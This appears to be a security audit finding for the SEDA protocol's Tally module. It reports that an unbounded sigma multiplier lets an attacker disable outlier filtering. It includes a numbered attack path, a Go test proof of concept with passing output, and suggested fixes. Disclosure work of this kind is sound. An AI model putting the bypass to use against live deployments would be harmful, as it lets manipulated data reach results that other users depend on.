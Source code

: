 Bubbly Topaz Sidewinder

Medium

# Malicious actors can bypass statistical filtering in Tally module by manipulating sigma multipliers

### Summary

Lack of bounds checking on user-provided sigma multipliers will cause bypassing of outlier detection in the Tally module as malicious actors will set extremely high sigma multiplier values to prevent detection of outlier data.

### Root Cause

In [filters.go](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/tally/types/filters.go#L136-L140):

```
sigmaMultiplier, err := NewSigmaMultiplier(input[1:9])
if err != nil {
	return filter, err
}
filter.sigmaMultiplier = sigmaMultiplier
```

This allows arbitrary values to be used as sigma multipliers. The value is then used in `detectOutliersBigInt` to calculate [maxDev](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/tally/types/filters.go#L238):

```go
		maxDev.Mul(sigmaMultiplier.BigRat(), new(big.Rat).SetInt(stdDev))
```

Without bounds checking, attackers can set extremely large multipliers that effectively disable the outlier detection.


### Internal Pre-conditions

A user needs to provide a sigma multiplier parameter through the filter input

### External Pre-conditions

None

### Attack Path

1. Attacker sets sigma multiplier to a very high value (e.g., 1000.0 or maximum uint64)
2. The system accepts the parameter without validation
3. The filter uses this sigma multiplier in `detectOutliersBigInt` function
4. The maxDev (maximum deviation) calculation uses this multiplier: `maxDev.Mul(sigmaMultiplier.BigRat(), new(big.Rat).SetInt(stdDev))`
5. Due to the extremely high multiplier, `isWithinMaxDev()` returns true for all values
6. All values are marked as non-outliers, even obvious outliers
7. The statistical filter is effectively bypassed

### Impact

The protocol suffers from decreased data quality as malicious data points can bypass the statistical filtering mechanism. This undermines the outlier detection system designed to protect against manipulated inputs, potentially leading to corrupted results in the Tally module.



### PoC



```go
package types_test

import (
	"encoding/base64"
	"encoding/binary"
	"testing"

	"cosmossdk.io/math"
	"github.com/sedaprotocol/seda-chain/x/tally/types"
	"github.com/stretchr/testify/require"
)

func TestFilterManipulationVulnerability(t *testing.T) {
	// Create a gas meter for testing with proper parameters
	gasMeter := types.NewGasMeter(
		1e13, // Tally gas limit
		1e13, // Execution gas limit
		types.DefaultMaxTallyGasLimit,
		math.NewIntWithDecimal(1, 18), // Gas price: 1 token
		types.DefaultGasCostBase,
	)
	replicationFactor := uint16(9)

	// Helper function to create a reveal body with numerical data
	createRevealBody := func(value string) types.RevealBody {
		// Create a simple JSON with a "value" field containing our test value
		// Note: The value must be a valid number string
		jsonData := []byte(`{"value": ` + value + `}`)

		return types.RevealBody{
			ID:           "test-id",
			Salt:         "00",
			ExitCode:     0,
			GasUsed:      1000,
			Reveal:       base64.StdEncoding.EncodeToString(jsonData),
			ProxyPubKeys: []string{},
		}
	}

	// Test data with more extreme variance to ensure outlier detection
	reveals := []types.RevealBody{
		createRevealBody("100"),
		createRevealBody("101"),
		createRevealBody("99"),
		createRevealBody("100"),
		createRevealBody("101"),
		createRevealBody("99"),
		createRevealBody("100"),
		createRevealBody("101"),
		createRevealBody("1000"), // Clear outlier (10x the average)
	}
	errors := make([]bool, len(reveals))

	// Helper function to create a filter with a specific sigma multiplier
	createFilter := func(sigmaMultiplier uint64) types.FilterStdDev {
		jsonPath := []byte("$.value")
		pathLen := uint64(len(jsonPath))

		input := make([]byte, 18+pathLen)
		input[0] = 0x03 // Standard deviation filter type
		binary.BigEndian.PutUint64(input[1:9], sigmaMultiplier)
		input[9] = 0x03 // Number type (uint64)
		binary.BigEndian.PutUint64(input[10:18], pathLen)
		copy(input[18:], jsonPath)

		filter, err := types.NewFilterStdDev(input, 1, replicationFactor, gasMeter)
		require.NoError(t, err)
		return filter
	}

	t.Run("PROOF: Normal sigma multiplier correctly identifies outliers", func(t *testing.T) {
		// Using a smaller sigma multiplier (2.0) to make outlier detection more sensitive
		filter := createFilter(2000000) // 2.0 * 10^6

		outliers, success := filter.ApplyFilter(reveals, errors)
		require.True(t, success, "With normal sigma multiplier, filter should reach consensus")

		// The last value should be flagged as an outlier
		require.True(t, outliers[8], "With normal sigma, the outlier should be detected")

		// Count outliers in the normal range
		outlierCount := 0
		for i := 0; i < 8; i++ {
			if outliers[i] {
				outlierCount++
			}
		}
		require.Equal(t, 0, outlierCount, "No normal values should be flagged as outliers")
	})

	t.Run("VULNERABILITY: Maximum sigma multiplier bypasses outlier detection", func(t *testing.T) {
		filter := createFilter(^uint64(0))

		outliers, success := filter.ApplyFilter(reveals, errors)
		require.True(t, success, "Filter should still reach consensus")

		for i := 0; i < len(reveals); i++ {
			require.False(t, outliers[i], "With maximum sigma, no values should be flagged as outliers")
		}
	})

	t.Run("VULNERABILITY: Very high sigma multiplier also bypasses filtering", func(t *testing.T) {
		filter := createFilter(1000000000) // 1000.0 * 10^6

		outliers, success := filter.ApplyFilter(reveals, errors)
		require.True(t, success, "Filter should reach consensus")

		for i := 0; i < len(reveals); i++ {
			require.False(t, outliers[i], "With very high sigma, no values should be flagged")
		}
	})
}
```

Test execution result:
```bash
❯ go test -v -run TestFilterManipulationVulnerability x/tally/types/filters_test.go
=== RUN   TestFilterManipulationVulnerability
=== RUN   TestFilterManipulationVulnerability/PROOF:_Normal_sigma_multiplier_correctly_identifies_outliers
=== RUN   TestFilterManipulationVulnerability/VULNERABILITY:_Maximum_sigma_multiplier_bypasses_outlier_detection
=== RUN   TestFilterManipulationVulnerability/VULNERABILITY:_Very_high_sigma_multiplier_also_bypasses_filtering
--- PASS: TestFilterManipulationVulnerability (0.00s)
    --- PASS: TestFilterManipulationVulnerability/PROOF:_Normal_sigma_multiplier_correctly_identifies_outliers (0.00s)
    --- PASS: TestFilterManipulationVulnerability/VULNERABILITY:_Maximum_sigma_multiplier_bypasses_outlier_detection (0.00s)
    --- PASS: TestFilterManipulationVulnerability/VULNERABILITY:_Very_high_sigma_multiplier_also_bypasses_filtering (0.00s)
PASS
ok      command-line-arguments  0.514s
```

### Mitigation

1. Implement bounds checking on sigma multiplier values (e.g., limit to reasonable range like 1.0-10.0)
2. Consider using median-based calculations rather than mean-based ones for better outlier resistance
3. Add additional validation for statistical parameters and enforce reasonable defaults